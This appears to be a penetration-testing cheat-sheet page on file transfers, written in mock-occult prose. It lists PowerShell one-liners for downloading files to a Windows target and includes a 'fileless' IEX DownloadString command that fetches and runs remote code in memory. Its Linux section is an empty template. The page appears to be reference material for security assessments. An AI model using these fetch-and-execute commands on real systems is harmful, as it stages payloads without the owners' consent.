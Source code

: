 <h1>📁 File Transfers</h1>

<p>In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.</p>

<blockquote><em>“No summoning may begin until the runes are in place.”</em></blockquote>

<hr/>

<details>
  <summary><strong>Windows</strong></summary>
  <hr/>

  <details>
    <summary><strong>PowerShell DownloadFile Method</strong></summary>
    <p><strong>Sync</strong></p>
    <pre>
      <code class="language-powershell">
        (New-Object Net.WebClient).DownloadFile('&lt;FILE URL&gt;','&lt;OUTPUT FILE NAME&gt;')
      </code>
    </pre>
    <p><strong>Async</strong></p>
    <pre>
      <code class="language-powershell">
          (New-Object Net.WebClient).DownloadFileAsync('&lt;FILE URL&gt;','&lt;OUTPUT FILE NAME&gt;')
      </code>
    </pre>
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>
    <p><strong>Base</strong></p>
    <pre>
      <code class="language-powershell">
        IEX (New-Object Net.WebClient).DownloadString('&lt;FILE URL&gt;')
      </code>
    </pre>
    <p><strong>Pipeline input</strong></p>
    <pre>
      <code class="language-powershell">
        (New-Object Net.WebClient).DownloadString('&lt;FILE URL&gt;') | IEX
      </code>
    </pre>
    </details>
  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>
    <p><strong>Base</strong></p>
    <pre>
      <code class="language-powershell">
        Invoke-WebRequest &lt;FILE URL&gt; -OutFile &lt;OUTPUT FILE NAME&gt;
      </code>
    </pre>
  </details>

  <hr/>
</details>

<hr/>

<details>
  <summary><strong>Linux</strong></summary>
  <hr/>

  <details>
    <summary><strong>TITLE</strong></summary>
    <p>Contenido del subtema Linux.</p>
  </details>

  <hr/>
</details>
